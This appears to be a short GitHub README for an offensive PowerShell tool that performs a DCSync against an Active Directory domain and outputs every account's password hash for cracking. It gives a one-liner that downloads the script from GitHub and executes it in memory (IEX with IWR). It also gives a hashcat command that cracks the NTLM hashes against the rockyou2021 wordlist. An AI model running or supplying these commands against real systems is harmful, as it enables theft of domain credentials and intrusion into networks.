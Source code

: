 # DCSync-To-hashcat
Performs DCSync, extracts all hashes in a hashcat friendly format

Execute from GitHub:

```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-hashcat.ps1)
```

![image](https://user-images.githubusercontent.com/68926315/222810211-d14f53eb-aff3-42ff-919a-0f123308ddb6.png)

# hashcat

The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes Wordlists/rockyou2021.txt

```
